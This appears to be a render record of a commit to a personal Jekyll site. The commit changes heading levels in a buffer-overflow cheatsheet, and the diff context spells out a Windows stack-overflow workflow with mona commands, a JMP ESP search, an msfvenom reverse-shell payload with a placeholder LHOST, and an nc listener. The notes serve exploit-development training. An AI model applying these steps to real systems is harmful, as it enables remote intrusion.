

Before and after one commit to Liodeus/liodeus.github.io, a Jekyll site: the page built from _posts/2020-08-11-bufferOverflow.md, in a window 1280 px wide and 900 px high. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Add files via upload

```diff
--- a/_posts/2020-08-11-bufferOverflow.md
+++ b/_posts/2020-08-11-bufferOverflow.md
@@ -6,22 +6,22 @@ description: "Buffer Overflow personal cheatsheet"
 
 ---
 
-## Check for windows protections :
+### Check for windows protections :
 
 - C:\Users\thiba\Desktop\build\Release\winchecksec.exe <PATH.exe>
 
 # Buffer Overflow "Normal" :
 
-## Mona Configuration :
+### Mona Configuration :
 
 - mona config -set workingfolder c:\mona\%p
 
-## Fuzzing :
+### Fuzzing :
 
 - fuzzer.py / fuzzer2.py -> until app crash
 - /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <SIZE> -> SIZE higher than crash offset
 
-## Crash Replication & Controlling EIP :
+### Crash Replication & Controlling EIP :
 
 - modify payload variable by pattern (exploit.py)
 - !mona findmsp -distance <SIZE> -> SIZE same as pattern
@@ -29,7 +29,7 @@ description: "Buffer Overflow personal cheatsheet"
 - modify retn variable by "BBBB", remove payload
 - Re-run exploit.py -> EIP should be "BBBB"
 
-## Finding Bad Characters :
+### Finding Bad Characters :
 
 - !mona bytearray -b "\x00" -> copy results to payload variable
 - Re-run exploit.py
@@ -38,18 +38,18 @@ description: "Buffer Overflow personal cheatsheet"
 - !mona compare -f C:\mona\oscp\bytearray.bin -a <ESP ADDRESS> -> Repeat the badchar comparison until the results status returns
 - "Unmodified". This indicates that no more badchars exist.
 
-## Finding a Jump Point :
+### Finding a Jump Point :
 
 - !mona jmp -r esp -cpb "<BAD CHARS>" -> Choose an address and update exploit.py, setting the "retn" variable to the address, written backwards
 
-## Generate Payload :
+### Generate Payload :
 
 - msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> EXITFUNC=thread -b "<BAD CHARS>" -f py -> Copy the generated shell code setting the payload variable
 
-## Prepend NOPs :
+### Prepend NOPs :
 
 - padding = "\x90" * 16
 
-## Start nc listerner :
+### Start nc listerner :
 
 - nc -lvp 1234
```
